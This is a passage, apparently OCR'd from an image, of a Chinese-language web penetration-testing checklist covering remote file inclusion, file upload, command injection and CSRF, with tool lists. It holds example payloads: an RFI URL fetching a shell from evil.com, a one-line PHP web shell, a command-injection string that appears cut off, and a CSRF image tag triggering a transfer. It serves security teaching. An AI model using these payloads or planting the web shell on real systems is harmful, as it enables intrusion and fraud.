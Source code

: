 #### RFI示例Payload
```url
http://example.com/index.php?page=http://evil.com/shell.txt
```

#### 工具
- `burpsuite`：拦截并修改请求
- `dirb`：目录扫描

### 5. 文件上传漏洞

#### 思路
文件上传功能可能存在未充分验证文件类型的漏洞，允许上传恶意脚本文件。

#### 检查步骤
1. 尝试上传常见的Web Shell文件，如`.php`、`.jsp`等。
2. 检查文件存储路径，访问上传的文件。

#### 示例PHP Web Shell
```php
<?php system($_GET['cmd']); ?>
```

### 6. 命令注入（Command Injection）

#### 思路
命令注入漏洞允许攻击者在服务器上执行任意系统命令。

#### 常见Payload
```bash
; ls -
```

#### 检查步骤
1. 在输入字段或URL参数中尝试注入基本的命令注入Payload。
2. 检查响应中是否包含命令执行的结果。

### 7. CSRF（跨站请求伪造）

#### 思路
CSRF漏洞允许攻击者诱导用户在已认证的情况下执行非预期的操作。

#### 示例攻击代码
```html
<img src="http://example.com/transfer?amount=1000&to=attacker" />
```

### 工具和资源

#### 工具
- `burpsuite`：Web漏洞测试工具
- `OWASP ZAP`：开源Web应用程序安全扫描器
- `Postman`：API测试工具
